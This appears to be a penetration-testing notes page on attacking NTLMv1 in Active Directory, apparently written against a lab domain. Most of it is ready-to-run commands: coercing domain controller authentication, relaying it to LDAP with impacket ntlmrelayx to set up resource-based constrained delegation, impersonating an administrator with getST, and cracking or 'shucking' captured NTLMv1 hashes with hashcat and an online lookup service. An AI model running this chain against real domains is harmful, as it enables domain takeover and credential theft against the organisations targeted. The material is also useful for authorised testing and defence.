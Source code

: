 # NTLMv1

## Relaying NTLMv1

### LDAP

### Requirements

- At least two Domain Controllers in the target Domain
- One domain controller configured with a LanMan Compatability setting at or less than '2' (Coerce Target)
- The other Domain Controller with a LanMan Compatability setting at or less than '4' (Relay Target)(Requires verification. Lab results suggest a value of '5' still works for NTLM through LDAP?)

#### Optional Requirements (Depends on attack vector)

#### MAQ -> RBCD -> Domain Administrator

- MAQ Greater than 0
- LDAP Channel Binding and Signing both not enforced
- Account to impersonate not in "Protected Users" or "Sensitive and cant be delegated"

#### Attack Chain

> Coerce
```bash
coercer coerce -u "USERNAME" -p "PASSWORD" -d "DOMAIN" -t "TARGET" -l "LISTENER"
```
> Relay
```
sudo impacket-ntlmrelayx -t ldap://TARGET --remove-mic -smb2support --delegate-access
```
> RBCD
```bash
impacket-getST DOMAIN/'MACHINE$':'PASSWORD' -impersonate "ADMIN" -spn "SERVICE/TARGET FQDN" -dc-ip "DC IP"
```
> Authentication
```bash
nxc smb "TARGET" --use-kcache 
```

## Recovering NTLMv1 Credentials

### Password Cracking
Two available recovery methods for password cracking
- Standard cracking (Wordlist / ruleset)
- Downgrade to 3DES keys and exhaust key space

#### Standard Cracking (Hashcat Mode 5500)
```
hashcat.exe -m 5500 -a 0 -O 5500.txt weakpass_4.txt -r rules\best64.rule
```
#### Downgrade to 3DES keys (Hashcat Mode 14000)
> Setup
```
python3 -m venv venv 
pip3 install pycryptodome
wget https://raw.githubusercontent.com/hashcat/hashcat-utils/refs/heads/master/src/ntlmv1.py
```
> Downgrade
```
# Downgrade
python3 ntlmv1.py --ntlmv1 Moe::SEVENKINGDOMS:535549550D915... --hashcat

# Echo contents to file
echo "535549550D915078:1122334455667788" >> 14000.hash
echo "B4F2F4334C1992E0:1122334455667788" >> 14000.hash
```
> Crack
```
# Full DES Key Space
hashcat.exe -m 14000 -a 3 -1 charsets/DES_full.hcchr --hex-charset 14000.hash ?1?1?1?1?1?1?1?1
```
### Password Shucking
If the plaintext equivalent of the NTLMv1 password is known in online lookup databases, password shucking can be performed to recover the plaintext.

- Only feasible for user account passwords

URL: https://shuck.sh/get-shucking.php

```
[+]  INPUT TOKEN                                    NT-HASH (PTH-READY)

Moe::SEVENKINGDOMS:535549550D915078B4F2...              Password123
```